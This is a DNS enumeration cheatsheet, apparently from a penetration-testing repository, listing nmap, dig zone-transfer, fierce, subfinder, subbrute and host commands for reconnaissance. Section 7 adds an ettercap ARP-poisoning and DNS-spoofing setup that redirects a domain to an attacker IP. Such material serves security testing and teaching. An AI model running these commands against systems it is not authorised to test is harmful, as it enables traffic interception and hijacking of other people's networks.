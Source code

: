 # DNS Enumeration Cheatsheet

Enumerating DNS (ports 53 TCP/UDP) services.

## 1. Enumerate DNS Service and Version (nmap)
Gather DNS service and version information.
```
nmap -p53 -Pn -sV -sC target.com
```
- `-p53`: Scans port 53 (TCP/UDP).
- `-Pn`: Skips host discovery.
- `-sV`: Detects service and version.
- `-sC`: Runs default scripts (e.g., DNS-related).

## 2. Perform DNS Zone Transfer (dig)
Attempt to dump DNS zone data.
```
dig AXFR @ns1.target.com target.com
```
- `AXFR`: Requests full zone transfer.
- `@ns1.target.com`: Specifies the target name server.

## 3. Enumerate DNS Servers and Zone Transfer (fierce)
Scan for DNS servers and attempt zone transfers.
```
fierce --domain target.com
```
- `--domain`: Specifies the target domain.
- Checks for misconfigured servers allowing zone transfers.

## 4. Subdomain Enumeration (subfinder)
Discover subdomains using open sources.
```
subfinder -d target.com -v
```
- `-d`: Specifies the target domain.
- `-v`: Verbose output to show sources (e.g., DNSdumpster).

## 5. Brute-Force Subdomains (subbrute)
Perform DNS brute-forcing for subdomains.
```
subbrute target.com -s wordlist.txt -r resolvers.txt
```
- `-s wordlist.txt`: Subdomain wordlist.
- `-r resolvers.txt`: Custom DNS resolvers for internal networks.

## 6. Check CNAME Records (host)
Enumerate CNAME records for a subdomain.
```
host subdomain.target.com
```
- Resolves the domain and checks for aliases (e.g., pointing to AWS, CDNs).

## 7. DNS Spoofing Setup (ettercap)
Spoof DNS responses via MITM (edit `/etc/ettercap/etter.dns` first).
```
# Edit /etc/ettercap/etter.dns
target.com      A   192.168.1.100
*.target.com    A   192.168.1.100
```
- Then run Ettercap:
```
ettercap -T -P dns_spoof -M arp /192.168.1.2/ /192.168.1.129/
```
- `-T`: Text interface.
- `-P dns_spoof`: Activates DNS spoofing plugin.
- `-M arp`: Performs ARP poisoning for MITM.
- Redirects `target.com` to attacker IP (e.g., 192.168.1.100).

## 8. Verify DNS Spoofing (ping)
Test if DNS spoofing redirects to the fake IP.
```
ping target.com
```
- Check if the resolved IP matches the attacker’s IP (e.g., 192.168.1.100).

## Tips
- Use SecLists or custom wordlists for subdomain brute-forcing.
- Check for misconfigurations (e.g., open zone transfers, dangling CNAMEs).
- Be cautious with DNS spoofing; requires network access and MITM setup.
- Reference `can-i-take-over-xyz` repo for subdomain takeover checks.